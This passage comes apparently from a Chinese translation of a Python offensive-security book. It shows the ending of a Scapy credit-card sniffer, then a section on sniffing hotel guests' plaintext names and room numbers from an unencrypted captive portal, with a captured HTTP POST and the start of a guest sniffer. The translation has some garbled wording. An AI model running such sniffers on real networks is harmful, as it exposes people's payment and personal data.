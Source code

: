 ```
        print parser.usage
        exit(0)
    else:
        conf.iface = options.interface
    try:
        print('[*] Starting Credit Card Sniffer.')
        sniff(filter='tcp', prn=findCreditCard, store=0)
    except KeyboardInterrupt:
        exit(0)
if __name__ == '__main__':
    main() 
```

显然，我们不打算盗取任何人的信用卡数据。事实上，这个攻击的无线黑客小偷被关了 20 年。但是希望你意识到这种攻击相对比较交单没有一般人为的那么复杂。在下一节中，我们将演示一个单独的情景，我们将攻击一个未加密的无线网络并盗取私人信息。

## 嗅探旅馆客人

大多数旅馆提供公开的无线网络。通常这些网络没有加密也缺乏任何企业忍着或者加密控制。本节将验证，及行 Python 代码就能渗透利用这个情况，导致灾难性的公共信息泄露。 最近，我呆在一家提供无线连接的旅馆当客人。当连接到无线网络之后，我的浏览器指向一个网页要求登陆这个网络。网络凭证包含我的姓名和房间号，提供此信息后，我的浏览器发布了一个未加密的 HTTP 页面返回到服务器接受认证 cookie。检查这个初始的 HTTP 提交，显示了一些有趣的东西。

我注意到一个字符串`PROVIDED_LAST_NAME=OCONNOR&PROVIDED_ROOM_NUMBER=1337`。 明文传输到旅馆服务器的包含我的姓名和房间号码。服务器没有试图保护这些信息，我的浏览器简单的发送这些透明的信息。对于这个特殊的酒店，客户的姓名和房间号被用来点餐，按摩服务甚至是购买礼品，所以你可以想到酒店的客户不想黑客得到他们的私人信息。

```
POST /common_ip_cgi/hn_seachange.cgi HTTP/1.1
Host: 10.10.13.37
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_1)
AppleWebKit/534.48.3 (KHTML, like Gecko) Version/5.1 Safari/534.48.3
Content-Length: 128
Accept: text/html,application/xhtml+xml,application/
xml;q=0.9,*/*;q=0.8
Origin:http://10.10.10.1
DNT: 1
Referer:http://10.10.10.1/common_ip_cgi/hn_seachange.cgi
Content-Type: application/x-www-form-urlencoded
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: keep-alive
SESSION_ID= deadbeef123456789abcdef1234567890 &amp;RETURN_
MODE=4&amp;VALIDATION_FLAG=1&amp;PROVIDED_LAST_NAME=OCONNOR&amp;PROVIDED_ROOM_
NUMBER=1337 
```

我们现在可以使用 Python 从酒店用户哪里捕获信息。开始是一个很简单的 Python 嗅探器。首先，我们将确认我们捕获流量的接口，接着，我们用`sniff()`函数嗅探监听流量，注意这个函数过滤，只监听 TCP 流量数据包，我们将函数命令为`findGuest()`。

```
conf.iface = "mon0"
try:
    print "[*] Starting Hotel Guest Sniffer."
    sniff(filter="tcp", prn=findGuest, store=0)
except KeyboardInterrupt:
exit(0) 
```
